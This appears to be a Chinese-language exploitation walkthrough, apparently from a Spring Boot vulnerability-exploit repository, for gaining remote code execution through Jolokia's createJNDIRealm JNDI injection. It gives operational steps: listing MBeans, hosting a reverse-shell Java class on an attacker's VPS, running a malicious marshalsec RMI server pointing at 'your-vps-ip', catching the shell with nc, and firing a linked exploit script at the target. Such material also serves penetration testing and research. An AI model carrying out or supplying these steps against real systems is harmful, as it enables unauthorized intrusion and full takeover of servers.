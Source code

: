 **利用方法：**

**步骤一：查看已存在的 MBeans**

访问 `/jolokia/list` 接口，查看是否存在 `type=MBeanFactory` 和 `createJNDIRealm` 关键词。

**步骤二：准备要执行的 Java 代码**

编写优化过后的用来反弹 shell 的 [Java 示例代码](https://raw.githubusercontent.com/LandGrey/SpringBootVulExploit/master/codebase/JNDIObject.java) `JNDIObject.java`。

**步骤三：托管 class 文件**

在自己控制的 vps 机器上开启一个简单 HTTP 服务器，端口尽量使用常见 HTTP 服务端口（80、443）

```
# 使用 python 快速开启 http server

python2 -m SimpleHTTPServer 80
python3 -m http.server 80
```

将**步骤二**中编译好的 class 文件拷贝到 HTTP 服务器根目录。

**步骤四：架设恶意 rmi 服务**

下载 [marshalsec](https://github.com/mbechler/marshalsec) ，使用下面命令架设对应的 rmi 服务：

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://your-vps-ip:80/#JNDIObject 1389
```

**步骤五：监听反弹 shell 的端口**

一般使用 nc 监听端口，等待反弹 shell

```
nc -lvp 443
```

**步骤六：发送恶意 payload**

根据实际情况修改 [springboot-realm-jndi-rce.py](https://raw.githubusercontent.com/LandGrey/SpringBootVulExploit/master/codebase/springboot-realm-jndi-rce.py) 脚本中的目标地址，RMI 地址、端口等信息，然后在自己控制的服务器上运行。

**漏洞原理：**

1. 利用 jolokia 调用 createJNDIRealm 创建 JNDIRealm
2. 设置 connectionURL 地址为 RMI Service URL
3. 设置 contextFactory 为 RegistryContextFactory
4. 停止 Realm
5. 启动 Realm 以触发指定 RMI 地址的 JNDI 注入，造成 RCE 漏洞

**漏洞分析：**

​ [Yet Another Way to Exploit Spring Boot Actuators via Jolokia](https://static.anquanke.com/download/b/security-geek-2019-q1/article-10.html)

**漏洞环境：**

[repository/springboot-jolokia-logback-rce](https://github.com/LandGrey/SpringBootVulExploit/tree/master/repository/springboot-jolokia-logback-rce)
